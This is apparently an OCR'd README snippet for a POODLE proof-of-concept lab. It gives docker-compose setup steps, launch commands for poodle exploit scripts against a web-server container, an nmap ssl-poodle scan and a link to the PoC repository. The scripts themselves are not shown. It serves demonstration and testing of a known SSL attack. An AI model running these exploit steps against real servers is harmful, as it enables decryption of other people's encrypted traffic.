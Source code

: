 # Start python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash

# Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or 
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt

# Launch the attack
python3 poodle-poc.py



docker-compose up web-server

# Scan poodle vulnerability from the attacker container
docker-compose run nmap -sV -p 443 --script=ssl-poodle web-server



# Use poodle-exploit.py
docker-compose run --rm poodle bash
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50

https://github.com/mpgn/poodle-PoC

NODE_OPTIONS=--tls-min-v1.0 /Applications/Postman.app/Contents/MacOS/Postman

curl -v https://127.0.0.1
openssl s_client -connect 127.0.0.1:443